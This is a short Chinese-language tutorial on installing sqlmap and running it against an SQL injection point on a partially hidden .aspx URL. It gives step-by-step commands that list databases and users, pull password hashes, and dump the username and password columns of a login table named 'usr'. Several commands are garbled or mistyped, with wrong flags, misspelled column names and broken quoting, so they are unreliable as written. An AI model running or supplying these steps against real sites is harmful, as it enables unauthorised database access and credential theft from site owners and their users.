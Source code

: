 # SQL MAP安裝與使用

### 介紹

SQLMAP是一款非常強大的開源滲透測試工具，用於自動檢測和利用SQL注入漏洞控制數據庫服務器的過程。它配備了一個強大的檢測引擎，由Python語言開發完成，通過外部連接訪問數據庫底層文件系統和操作系統，並執行命令實現滲透。

### 安裝方法：

cmd

`pip install sqlmap`

###  漏洞檢測

  
cd去到Python環境sqlmap文件夾下，運行命令：

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"`**

 1.獲取所有數據庫 

 參數：--dbs

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--dbs`**

 2.獲取當前數據庫 

 參數：--current-db

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--current lab`**

 3.獲取數據庫所有用戶 

 參數：--users

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--users`**

4.獲取數據庫當前用戶

參數：--current-user

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--current-users`**

 5.獲取數據庫所有用戶和密碼

  參數：--passwords

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"--passwords`**

 **6.** 獲取數據庫所有表  
 參數：-D ahykd\_new --tables

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"-D ahykd_new-tables`**

 **7.** 獲取數據庫登錄表所有內容  
 參數：-D ahykd\_new -T usr --columns

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"-D ahykd_new -T usr-columns`**

 **8.** 獲取數據庫登錄表用戶名和密碼  
 參數：-D ahykd\_new -T usr -C "usr\_name,password" --dump  

**`python sqlmap -py -u “http://.../tztgxx.aspx?code = 155"-D ahykd_new -T usr-C" usr_naem,password"-dump`**

